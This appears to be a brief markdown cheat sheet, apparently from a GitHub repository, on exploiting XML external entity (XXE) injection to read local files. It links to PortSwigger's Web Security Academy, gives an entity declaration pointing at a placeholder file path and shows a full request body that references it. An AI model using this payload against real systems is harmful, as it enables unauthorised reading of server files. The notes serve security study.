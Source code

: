 # Extract File
https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files

## Define an External Entity for the file you want
```
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///filePathHere.txt" >
]>
```

## Reference the External Entity
Add the `&xxe;` reference inside one of the expected request parms

## Set Full Request Body

```
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///filePathHere.txt" >
]>
<query>
    <search>a</search>
    <country>&xxe;</country>
</query>
````




